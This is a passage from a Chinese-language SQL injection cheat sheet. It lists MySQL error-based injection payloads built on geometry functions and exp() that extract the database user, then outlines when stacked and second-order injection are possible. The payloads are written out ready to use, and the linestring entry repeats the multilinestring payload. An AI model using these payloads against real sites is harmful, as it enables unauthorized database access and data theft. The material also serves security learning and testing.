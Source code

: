 * geometrycollection()
    ```sql
        利用手法:
        and geometrycollection((select * from(select * from(select user())a)b))
    ```
* multipoint()
    ```sql
        利用手法:
        and multipoint((select * from(select * from(select user())a)b))
    ```
* polygon()
    ```sql
        利用手法:
        and polygon((select * from(select * from(select user())a)b))
    ```
* multipolygon()
    ```sql
        利用手法:
        and multipolygon((select * from(select * from(select user())a)b))
    ```
* linestring()
    ```sql
        利用手法:
        and multilinestring((select * from(select * from(select user())a)b))
    ```
* multilinestring()
    ```sql
        利用手法:
        and multilinestring((select * from(select * from(select user())a)b))
    ```
* exp()
    ```sql
        利用手法:
        and (exp(~(select * from(select user())a)))
    ```
>  <h2 id="7">0x07 堆叠注入</h2>
### 触发条件
```
当遇到堆叠注入时，恶意用户是可以自己构造想要的SQL语句的，而不是说，脚本上写了SELECT就只能通过改变参数去利用SELECT，但是堆叠注入的出现是有条件的，得看执行sql语句的函数支不支持多条sql语句执行，就拿php来说。  
```
PHP5.x版本使用的以下函数  
`mysqli_multi_query()`可以执行多条sql语句  
`mysql_query`只能执行一条sql语句  
也就是说，如果目标脚本用的函数是只能执行一条sql语句的话，那么也不存在堆叠注入

> <h2 id="8">0x08 二次注入</h2>
### 触发条件
```
1.恶意语句被代码转义
2.数据库取出数据时，不做任何处理，直接给用户
```
